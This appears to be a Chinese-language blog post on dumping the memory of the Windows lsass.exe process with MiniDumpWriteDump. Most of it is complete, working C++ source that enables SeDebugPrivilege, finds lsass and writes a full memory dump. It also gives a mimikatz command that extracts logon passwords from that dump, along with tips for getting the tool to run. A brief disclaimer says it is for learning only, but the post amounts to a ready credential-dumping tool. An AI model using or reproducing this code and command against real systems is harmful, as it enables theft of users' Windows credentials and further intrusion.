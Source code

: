 ```yaml
---
layout: post
title:  minidumpwritedump导出lsass
tags: [windows系统编程]
---
```


# 声明
本文所涉及程序均在本地运行测试，用于学习目的，请勿用于非法用途。

# 前言
利用MiniDumpWriteDump导出lsass.exe进程内存。  

# 程序分析
程序见文末。

先设置权限SeDebugPriviledge，再 MiniDumpWriteDump指定进程的内存。

# 运行
使用管理员权限打开cmd，运行，可以成功。  
使用mimikatz提取password,
`mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" exit`

# 问题
1. OpenProcess 报错 5
   权限不够，需要管理员权限运行，且SeDebugPriviledge。

2. MiniDumpWriteDump 报错 2147942699
   将x86编译改为x64编译可以执行


# 源代码
```cpp
//#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#include <stdio.h>
// #pragma comment(lib, "cmcfg32.lib")
#pragma comment (lib, "Dbghelp.lib")

using namespace std;

BOOL SetPrivilege(
)
{
    HANDLE hToken;
    TOKEN_PRIVILEGES tp;
    LUID luid;
    cout << "sedebugpriviledge\n";
    
    if (!OpenProcessToken(
        GetCurrentProcess(),
        TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY,   
        &hToken))       
    {
        printf("LookupPrivilegeValue error: %u\n", GetLastError());
        return FALSE;
    }

    LPCTSTR lpszPrivilege = SE_DEBUG_NAME;

    if (!LookupPrivilegeValue(
        NULL,            // lookup privilege on local system
        lpszPrivilege,   // privilege to lookup 
        &luid))        // receives LUID of privilege
    {
        printf("LookupPrivilegeValue error: %u\n", GetLastError());
        return FALSE;
    }

    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    BOOL bEnablePrivilege = TRUE;
    if (bEnablePrivilege)
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    else
        tp.Privileges[0].Attributes = 0;

    // Enable the privilege or disable all privileges.

    if (!AdjustTokenPrivileges(
        hToken,
        FALSE,
        &tp,
        sizeof(TOKEN_PRIVILEGES),
        (PTOKEN_PRIVILEGES)NULL,
        (PDWORD)NULL))
    {
        printf("AdjustTokenPrivileges error: %u\n", GetLastError());
        return FALSE;
    }

    if (GetLastError() == ERROR_NOT_ALL_ASSIGNED)

    {
        printf("The token does not have the specified privilege. \n");
        return FALSE;
    }

    return TRUE;
}

int main() {
        DWORD lsassPID = 0;
        HANDLE lsassHandle = NULL;

        if (!SetPrivilege()) {
            cout << "sedebug error, please use administrator priviledge" << endl;
            return 0;
        }

        // Open a handle to lsass.dmp - this is where the minidump file will be saved to
        HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

        // Find lsass PID
        HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        PROCESSENTRY32 processEntry = {};
        processEntry.dwSize = sizeof(PROCESSENTRY32);
        LPCWSTR processName = L"";

        if (Process32First(snapshot, &processEntry)) {
                while (_wcsicmp(processName, L"lsass.exe") != 0) {
                        Process32Next(snapshot, &processEntry);
                        processName = processEntry.szExeFile;
                        lsassPID = processEntry.th32ProcessID;
                }
                wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
        }

    

        // Open handle to lsass.exe process
        //lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
    lsassHandle = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ | PROCESS_DUP_HANDLE  | THREAD_ALL_ACCESS, 0, lsassPID);
        //cout << lsassHandle;
        cout << GetLastError() << endl;

        // Create minidump
        BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
        cout << GetLastError() << endl;
        if (isDumped) {
                cout << "[+] lsass dumped successfully!" << endl;
        }

        return 0;
}
```

## 引用
1. https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass
2. https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump
3. https://docs.microsoft.com/en-us/windows/win32/secauthz/enabling-and-disabling-privileges-in-c--
4. https://github.com/killswitch-GUI/minidump-lib/blob/master/minidump-lib/minidump.cpp
5. https://www.cnblogs.com/amwuau/p/10027893.html
6. https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E4%BB%8Elsass.exe%E8%BF%9B%E7%A8%8B%E5%AF%BC%E5%87%BA%E5%87%AD%E6%8D%AE

